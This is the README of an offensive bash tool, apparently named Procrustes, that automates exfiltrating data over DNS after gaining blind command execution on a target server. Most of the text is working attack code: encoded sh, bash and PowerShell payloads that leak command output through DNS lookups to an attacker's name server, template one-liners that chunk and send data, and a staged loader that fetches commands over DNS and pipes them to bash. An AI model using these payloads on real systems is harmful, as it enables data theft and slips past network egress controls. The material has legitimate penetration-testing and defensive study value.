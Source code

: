 # Procrustes

A bash script that automates the exfiltration of data over dns in case we have a blind command execution on a server where all outbound connections except DNS are blocked. The script currently supports sh, bash and powershell and is compatible with exec style command execution (e.g. java.lang.Runtime.exec).

Unstaged:
<p align="center">
  <img src="images/op.gif"/>
</p>

Staged:
<p align="center">
  <img src="images/staged.gif"/>
</p>

For its operations, the script takes as input the command we want to run on the target server and transforms it according to the target shell in order to allow its output to be exfiltrated over DNS. After the command is transformed, it's fed to the "dispatcher". The dispatcher is a program provided by the user and is responsible for taking as input a command and have it executed on the target server by any means necessary (e.g. exploiting a vulnerability). After the command is executed on the target server, it is expected to trigger DNS requests to our DNS name server containing chunks of our data. The script listens for those requests until the output of the user provided command is fully exfiltrated.

Below are the supported command transformations, generated for the exfiltration of the command: `ls`

sh:
```bash
sh -c $@|base64${IFS}-d|sh . echo IGRpZyBAMCArdHJpZXM9NSBgKGxzKXxiYXNlNjQgLXcwfHdjIC1jYC5sZW4xNjAzNTQxMTc4LndoYXRldi5lcgo=
```

bash:
```bash
bash -c {echo,IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwNTYwLndoYXRldi5lcgo=}|{base64,-d}|bash
```

powershell:
```bash
powershell -enc UgBlAHMAbwBsAHYAZQAtAEQAbgBzAE4AYQBtAGUAIAAkACgAIgB7ADAAfQAuAHsAMQB9AC4AewAyAH0AIgAgAC0AZgAgACgAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAoAGwAcwApACkAKQAuAGwAZQBuAGcAdABoACkALAAiAGwAZQBuACIALAAiADEANgAwADMAMAAzADAANAA4ADgALgB3AGgAYQB0AGUAdgAuAGUAcgAiACkACgA=
```

## Usage
1. Local testing for bash:
```bash
./procroustes_chunked.sh -h whatev.er -d "dig @0 +tries=5" -x dispatcher_examples/local_bash.sh -- 'ls -lha|grep secret' < <(stdbuf -oL tcpdump --immediate -l -i any udp port 53)
```

2. Local testing for powershell with WSL2:
```bash
stdbuf -oL tcpdump --immediate -l -i any udp port 53|./procroustes_chunked.sh -w ps -h whatev.er -d "Resolve-DnsName -Server wsl2_IP -Name" -x dispatcher_examples/local_powershell_wsl2.sh -- 'gci | % {$_.Name}'
```

3. powershell example where we ssh into our NS to get the incoming DNS requests.
```bash
./procroustes_chunked.sh -w ps -h yourdns.ns -d "Resolve-DnsName" -x dispatcher_examples/curl_waf.sh -- 'gci | % {$_.Name}' < <(stdbuf -oL ssh user@HOST 'sudo tcpdump --immediate -l udp port 53')
```

4. More information on the options
```bash
./procroustes_chunked.sh --help
```

### procroustes_chunked vs procroustes_full

In a nutshell, assuming we want to exfiltrate some data that has to be broken into four chunks in order to be able to be transmitted over DNS:
* procroustes_chunked: calls the dispatcher four times, each time requesting a different chunk from the server
* procroustes_full: calls the dispatcher once, the command that will get executed on the server will be responsible for chunking the data and sending them over.
* procroustes_full/staged: same as procroustes_full, but uses a stager to get the command used by procroustes_full to chunk the data

Some of their differences can also be illustrated through the template commands used for bash/powershell:

procroustes_chunked/bash:
```bash
%DNS_TRIGGER% `(%CMD%)|base64 -w0|cut -b$((%INDEX%+1))-$((%INDEX%+%COUNT%))'`.%UNIQUE_DNS_HOST%
```
procroustes_full/bash:
```bash
((%CMD%);printf '\n%SIGNATURE%')|base64 -w0|grep -Eo '.{1,%LABEL_SIZE%}'|xargs -n%NLABELS% echo|tr ' ' .|nl|awk '{printf "%s.%s%s\n",$2,$1,"%UNIQUE_DNS_HOST%"}'|xargs -P%THREADS% -n1 %DNS_TRIGGER%
```
procroustes_full/bash/staged:
```bash
while [[ ${a[*]} != "4 4 4 4" ]];do ((i++));printf %s "$c";IFS=. read -a a < <(dig +short $i.%UNIQUE_DNS_HOST%);c=$(printf "%02x " ${a[*]}|xxd -r -p);done|bash
```

---------------------------------------


|                       | procroustes_chunked                | procroustes_full  |  procroustes_full_staged (experimental)  |
| -------------         |:-------------:               |:-----:         |:-----:         |
| payload size overhead (bash/powershell) [1] | 150\*NLABELS/500\*NLABELS (+CMD_LEN)          | 300/750 (+CMD_LEN)       |   250/❌  |
| dispatcher calls #     | #output/(LABEL_SIZE*NLABELS)[2] |   1👌          |                1    |
| speed (bash/powershell)[3]                | ✔/✔                         |  ✔/😔         | ✓/❌|

[1] For the staged version, the command is fetched through DNS, so the listed size is the total payload size

[2] On procroustes_chunked, the provided command gets executed multiple times on the server until all of its output is extracted. This behavior may cause problems in case that command is not idempotent (functionality or output-wise) or is time/resource intensive. 
A workaround to avoid running into issues for the aforementioned cases is to first store the command output into a file (e.g. /tmp/file) and then read that file.

[3] We can speed up the exfiltration process by having the NS properly responding to the requests received. This is especially usefull in the case of procroustes_full/powershell. The simple [DNS server](https://github.com/vp777/procrustes/blob/master/staged_files/dnsns.py) used for the staged version can do this task

### Todos
 - Create a wrapper script, that will contain variables (e.g. host=a, dns_trigger=b, dispatcher=c ...) and will translate them to procrustes commands (e.g. ./procrustes_full.sh -h a -d b -x c -- "$1")
 - ~~we could achieve constant command length by sending initially a "stager" command, which will then get our full command through DNS responses.~~ (done for bash)
 - Add stagers for sh (could be a massage of the bash stager), powershell (something similar with [this](https://github.com/no0be/DNSlivery/blob/731ace1eb35b7499cc7b95e22816a371507cbd40/dnslivery.py#L171))
 - procroustes_full/powershell command can use some parallelization:
 ```bash
[Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((%CMD%)+(echo "`n%SIGNATURE%"))) -split '(.{1,%CHUNK_SIZE%})'|?{$_}|%{$i+=1;%DNS_TRIGGER% $('{0}{1}{2}' -f ($_ -replace '(.{1,%LABEL_SIZE%})','$1.'),$i,'%UNIQUE_DNS_HOST%')}
```
PRs are welcome

### Credits
* [Collabfiltrator](https://github.com/0xC01DF00D/Collabfiltrator) - idea of chunking the data on the server. It also performs similar functionalities with this script, so check it out.
* [DNSlivery](https://github.com/no0be/DNSlivery) - modified version of DNSlivery is used as DNS server in the staged version